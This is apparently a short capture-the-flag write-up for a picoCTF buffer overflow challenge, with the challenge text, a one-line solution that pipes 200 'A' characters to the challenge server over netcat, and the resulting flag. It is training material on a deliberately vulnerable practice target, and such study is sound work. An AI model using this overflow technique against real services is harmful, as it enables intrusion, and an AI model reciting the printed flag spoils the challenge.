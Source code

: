 # Objetivo

Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/173/vuln). You can view source [here](https://artifacts.picoctf.net/c/173/vuln.c). And connect with it using: `nc saturn.picoctf.net 51532`

# Solucion

```Shell

┌──(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 51532 <<< $(python3 -c "print('A'*200)")
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_90d2bb58}
```

# Notas adicionales

# Referencias